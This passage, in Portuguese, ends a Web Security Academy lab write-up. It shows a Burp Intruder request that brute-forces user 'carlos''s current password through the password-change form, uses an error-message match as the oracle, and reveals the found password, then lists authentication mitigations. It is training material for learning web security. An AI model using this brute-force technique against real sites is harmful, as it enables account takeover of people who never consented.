Origin: https://0a6400d703a3c22ec2f0c53b00640052.web-security-academy.net
Referer: https://0a6400d703a3c22ec2f0c53b00640052.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

username=carlos&current-password=§sonael§&new-password-1=sonael&new-password-2=neto

```

Aqui podemos ver que o parâmetro `current-password` foi alterado para `§sonael§` e o parâmetro `username` foi alterado para `carlos` para que o brute-force seja feito na senha do usuário `carlos`.

Também devemos adicionar ao `Grep - March` do intruder a flag `New passwords do not match` para que o intruder avise quando a senha estiver correta.



Agora vamos executar o brute-force e ver qual senha está correta.



Agora podemos logar com o usuário `carlos` e a senha `555555`.



E assim finalizamos o laboratório.



---

## **• Mitigação.**

***Existem várias maneiras de mitigar as vulnerabilidades de autenticação:***

### ***Lado do Usuário:***

- Utilizar senhas fortes: As senhas devem ser longas e complexas, contendo letras maiúsculas, minúsculas, números e símbolos. Elas também não devem ser compartilhadas com terceiros.

- Utilizar autenticação de dois fatores (2FA): A autenticação de dois fatores exige que o usuário forneça além da senha, outro elemento de autenticação, como um código enviado por SMS ou um token gerado por um aplicativo de autenticação.

- Utilizar autenticação baseada em biometria: A autenticação baseada em biometria utiliza características físicas do usuário, como impressão digital, reconhecimento facial ou reconhecimento de voz, para autenticar o usuário.

- Utilizar senhas únicas para cada conta: Cada conta deve ter uma senha única para evitar que uma senha comprometida em uma conta seja usada para acessar outras contas.

- Atualizar regularmente senhas: As senhas devem ser atualizadas regularmente para evitar que elas sejam comprometidas por ataques de força bruta ou por meio de vazamentos de senhas.

- Utilizar ferramentas de gerenciamento de senhas: As ferramentas de gerenciamento de senhas armazenam as senhas de forma segura e fornecem recursos para criar senhas fortes e únicas para cada conta.

### ***Lado do Desenvolvedor:***

- Utilizar bibliotecas de autenticação seguras: As bibliotecas de autenticação seguras já implementam medidas de segurança, como criptografia de senhas e proteção contra ataques de força bruta.

- Implementar políticas de senhas seguras: As políticas de senhas devem exigir senhas fortes e seguir as melhores práticas para criação de senhas, como uso de letras maiúsculas, minúsculas, números e símbolos.

- Validar as credenciais de usuário de forma segura: As credenciais de usuário devem ser validadas de forma segura, evitando armazenar senhas em texto simples ou transmiti-las de forma insegura.

- Utilizar autenticação de dois fatores: A autenticação de dois fatores pode aumentar significativamente a segurança da autenticação, exigindo que o usuário forneça outro elemento de autenticação além da senha.

- Manter o sistema de autenticação atualizado: É importante manter o sistema de autenticação atualizado com as últimas correções de segurança e patches de segurança para minimizar vulnerabilidades conhecidas.

- Treinar os funcionários sobre segurança de senhas: Os funcionários devem ser treinados sobre boas práticas de segurança de senhas, como criar senhas fortes e não compartilhá-las com terceiros.

---

## **• Dificuldades.**

O uso do `Turbo intruder` do **Burp Suit** para fazer o brute-force foi um pouco complicado, mas depois de pesquisar um pouco consegui fazer.

---

## **• Referências.**

- [Vulnerabilidades de autenticação](https://www.linkedin.com/pulse/vulnerabilidades-de-autenticação-alyce-suza/?originalSubdomain=pt)

- [ChatGPT](https://chat.openai.com/chat)

----

## **• Laboratórios.**

- [Username enumeration via subtly different responses](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-subtly-different-responses)
- [2FA simple bypass](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-simple-bypass)
- [2FA broken logic](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic)
- [Password reset broken logic](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic)
- [Password brute-force via password change](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-brute-force-via-password-change)


